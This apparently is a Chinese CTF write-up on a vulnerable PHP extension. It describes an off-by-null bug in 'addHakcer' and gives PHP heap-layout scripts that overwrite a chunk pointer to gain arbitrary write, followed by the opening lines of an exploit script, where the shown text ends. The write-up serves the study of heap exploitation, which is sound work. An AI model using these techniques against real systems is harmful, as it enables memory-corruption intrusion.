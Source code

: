 漏洞点是`addHakcer`​的时候存在一个off by null的漏洞：

![image](https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/image-20250404165024-3sweb6p.png)

按照如下布局：

```php
<?php

addHacker("aaaaaaaa", "bbbbbbb");
addHacker("cccccccc", "ddddddd");
removeHacker(1);
addHacker("gggggggg", "hhhhhhh");
removeHacker(0);
addHacker("eeeeeeee", "ffffffff");

displayHacker(0);

?>

```

即可覆盖`chunkList[1].ptr->str1_ptr`​：

![image](https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/image-20250404165217-nr557ub.png)

结合`editHacker`​的修改能力：

```php
<?php

addHacker("aaaaaaaa", "bbbbbbb");
addHacker("cccccccc", "ddddddd");
removeHacker(1);
addHacker("gggggggg", "hhhhhhh");
removeHacker(0);
addHacker("eeeeeeee", "ffffffff");

editHacker(1, "hacked!!");
displayHacker(0);

?>
```

能在堆上进行一定的篡改：

![image](https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/image-20250404165741-tz02367.png)

通过适当构造可以得到任意地址写：

![image](https://0xfff-1302812534.cos.ap-shanghai.myqcloud.com/img/image-20250411172907-0bq68ih.png)

exp：

```php
<?php

$vuln_base = 0;
$libc_base = 0;
$libc = "";
$mbase = "";

function u64($leak){
    $leak = strrev($leak);
    $leak = bin2hex($leak);
    $leak = hexdec($leak);
    return $leak;
}
```